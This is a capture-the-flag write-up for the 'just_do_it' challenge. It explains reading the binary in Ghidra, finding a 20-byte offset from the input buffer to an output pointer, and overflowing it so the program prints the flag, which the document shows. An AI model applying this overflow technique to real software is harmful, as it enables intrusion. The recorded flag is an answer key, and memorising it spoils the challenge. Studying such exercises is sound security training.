 # Just_do_it Writeup

## Steps:
1. Open in ghidra and analyze
    - Notice the password checking; even if we set the input to P@SSW0RD, the output message is set as "Correct Password, Welcome!" rather than the flag
```
  iVar2 = strcmp(input,PASSWORD);
  if (iVar2 == 0) {
    out = success_message;
  }
  puts(out);

```
Instead, notice flag.txt is read into a global variable at 0x0804a080. So we will replace out with that so the flag is printed with `puts`

2. Look at the stack variable layout

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x0]:4   local_res0                              XREF[2]:     080485c2(R), 
                                                                                                   08048708(*)  
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)  
             undefined4        Stack[-0x14]:4 out                                     XREF[2]:     0804860d(W), 
                                                                                                   080486ee(W)  
             undefined4        Stack[-0x18]:4 fp                                      XREF[3]:     08048625(W), 
                                                                                                   08048628(R), 
                                                                                                   0804864b(R)  
             undefined1[16]    Stack[-0x28]   input                                   XREF[2]:     080486a6(*), 
                                                                                                   080486d9(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:080484d7(*), 0804886c, 
                                                                                          080488c8(*)  
        080485bb 8d 4c 24 04     LEA        ECX=>Stack[0x4],[ESP + 0x4]

```
input is at `Stack[-0x28]` and the variable we want to change (renamed 'out') is at `Stack[-0x14]`
`0x28 - 0x14 = 0x14` which is 20 bytes in decimal. Since we can write `0x20` (`32`) bytes to input, we can access and change `out`

3. Create a payload overwriting the 20 bytes from 'input' to 'out' and set `out = 0x0804a080`

4. Send payload to process


## Solution:
```
$ python3 ex_just.py 
[+] Starting local process './just_do_it': pid 63659
[*] Switching to interactive mode
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$ 
[*] Process './just_do_it' stopped with exit code -11 (SIGSEGV) (pid 63659)
[*] Got EOF while sending in interactive
```
